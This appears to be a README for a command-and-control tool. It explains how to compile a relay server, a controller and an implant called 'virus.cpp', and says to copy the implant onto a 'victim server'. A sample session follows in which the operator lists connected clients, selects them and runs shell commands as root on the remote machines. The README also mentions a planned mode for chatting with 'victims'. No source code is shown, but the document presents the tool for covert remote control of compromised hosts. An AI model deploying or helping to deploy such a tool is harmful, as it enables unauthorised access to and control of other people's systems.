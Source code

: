 Linux Server C2 Controller

Step 1:

Replace the ip address "192.168.80.132" in the tcsl.cpp and host.cpp as your server ipv4 address

Step 2:

Copy tcsl.cpp to your Linux Server

virus.cpp to your victim server

host.cpp to your local machine as control side

and then compile:

g++ tcsl.cpp -o tcsl

g++ host.cpp -o host

g++ virus.cpp -o server

Step 3: 

Open terminals and run the command seperately:

./tcsl

Support any amounts of Clients' connections

the Host and Client is auto-recognized:

./virus

./host

Step 4:

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

Step 5:

Enjoy your commands in the host terminal and control your client as terminal.

For example:

Connected to the server.

No client connected.

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# hh

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.


┌──(root♪hr0g) - [~1]

└─# pwd

/home/kali/Desktop

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# whoami

root


┌──(root♪hr0g) - [~1]

└─# hs 2

Client 2 selected.

┌──(root♪hr0g) - [~2]

└─# hh

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~2]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# hs 1

Client 1 selected.

┌──(root♪hr0g) - [~1]

└─# exit

Exited.

Client 1:  Ip: 223.104.76.166

Client 2:  Ip: 223.104.76.166

┌──(root♪hr0g) - [~]

└─# ls

Please use 'hs' followed with the client numbers you pick.

For example: 'hs 1'

Use 'hh' to check the connected clients.

┌──(root♪hr0g) - [~]

└─# 

use 'chatmode' to communicate with victims(under development)

